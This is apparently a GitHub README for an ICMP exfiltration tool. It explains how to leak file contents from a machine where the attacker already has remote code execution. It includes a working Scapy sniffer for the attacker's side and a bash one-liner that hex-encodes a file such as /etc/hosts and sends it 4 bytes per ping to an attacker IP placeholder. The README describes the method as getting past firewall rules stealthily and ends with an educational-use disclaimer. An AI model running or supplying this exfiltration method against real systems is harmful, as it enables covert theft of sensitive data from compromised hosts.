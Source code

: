 # **ICMP Sniffer for Data Exfiltration**

This tool demonstrates a method to **exfiltrate data** from a vulnerable machine using **Remote Code Execution (RCE)** via **ICMP ping packets**. It's designed for scenarios where establishing a reverse shell or listing directories isn't possible. Instead, it allows the transfer of file contents over **ICMP Echo Requests**.

## **Overview**

When **RCE** is available on a target system (whether through a **web shell**, direct command execution, or any other form of **RCE**), but network restrictions prevent the use of common exfiltration methods like reverse shells, this tool helps **exfiltrate sensitive data** by transferring it through **ICMP packets**.

## **How It Works**

- **On the Target Machine**:
    - When you have **RCE** access (via a **web shell** or any method), run a command to **convert a file** (e.g., `/etc/hosts`, `/etc/passwd`) into **hexadecimal format** and send the content **4 bytes at a time** via **ICMP ping packets**.

- **On the Attacker Machine**:
    - Use the **ICMP Sniffer script** to listen for incoming **ping requests** and extract the file contents.
    
This method bypasses traditional firewall rules and can **exfiltrate data in a stealthy manner**.

## **Requirements**

- Python 3.x
- Scapy library
- Root privileges (to sniff ICMP packets)

## **Usage**

### 1. **icmp_sniffer.py**

This Python script listens for **ICMP Echo Requests** and extracts the data sent within them.

```python
#!/usr/bin/python3

from scapy.all import *
import signal, sys, time

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+C handler
signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')

if __name__ == '__main__':
    sniff(iface='tun0', prn=data_parser)  # Change "tun0" if needed
```
### 2. **Command for the Target Machine**
Run the following on the target machine (with RCE access, such as through a web shell or another method) to exfiltrate the contents of a file via ICMP:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attacker_ip>; done
```

### 3. **Run the Sniffer**
On the attacker's machine, use the **icmp_sniffer.py** to listen for the incoming ICMP packets:

```bash
sudo python3 icmp_sniffer.py
```
You will see the contents of the file printed on your terminal as it is exfiltrated.

## License

icmp-sniffer is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

This tool is intended for educational and testing purposes only. It should not be used for any malicious activities.

